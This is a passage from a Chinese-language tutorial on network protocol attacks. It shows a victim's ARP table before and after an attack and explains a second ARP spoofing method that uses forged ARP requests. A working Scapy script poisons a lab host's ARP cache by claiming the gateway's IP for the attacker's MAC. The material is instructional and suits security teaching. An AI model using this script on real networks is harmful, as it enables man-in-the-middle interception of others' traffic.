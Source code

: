 受害主机攻击前的arp表

![](./NetprotocolAttack/2.png)

攻击后

![](./NetprotocolAttack/3.png)


### 2、向受害主机B发送ARP请求包，包内内容为 B主机的mac地址多少，告诉<font color="red">MAC地址为xxxx的IP地址为xxx的主机</font> ###

这里红色字的就是我们需要伪造的点
其实和上面第一种方式发的包差不多，只不过op为1，微观上有些不同而已，主机会把来源mac和来源ip记录在arp表中

#### 代码： ####

---

	from scapy.all import *

	gwIp = "192.168.58.1"
	targetIp = "192.168.58.130"
	targetMac = getmacbyip(targetIp)
	selfIp = get_if_addr("eth0")
	selfMac = get_if_hwaddr("eth0")
	
	arpPacket = Ether()/ARP()
	arpPacket[Ether].src = selfMac
	arpPacket[Ether].dst = targetMac
	
	arpPacket[ARP].hwsrc = selfMac
	arpPacket[ARP].psrc = gwIp                
	arpPacket[ARP].hwdst = targetMac
	arpPacket[ARP].pdst = targetIp
	arpPacket[ARP].op = 1
	
	sendp(arpPacket)

抓包：
